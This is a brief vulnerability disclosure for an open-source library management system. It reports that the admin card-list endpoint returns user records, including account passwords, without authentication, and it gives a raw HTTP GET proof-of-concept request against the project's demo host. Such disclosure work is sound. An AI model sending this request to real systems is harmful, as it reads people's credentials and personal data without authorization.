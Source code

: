 Via the version demo address provided in the https://gitee.com/mingyuefusu/tushuguanlixitong: http://library.mingyuefusu.top

The vulnerability http://library.mingyuefusu.top/admin/index.jsp

![image-20241104104410316](/Users/xyao/Library/Application Support/typora-user-images/image-20241104104410316.png)

There is an unauthorized data reading vulnerability in the library card management in the background of the system, and information such as account passwords can be read.

POC:

```
GET /admin/cardList?page=1&limit=7430 HTTP/1.1
Host: library.mingyuefusu.top
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

User data information can be read without authorizatio

![image-20241104104518510](/Users/xyao/Library/Application Support/typora-user-images/image-20241104104518510.png)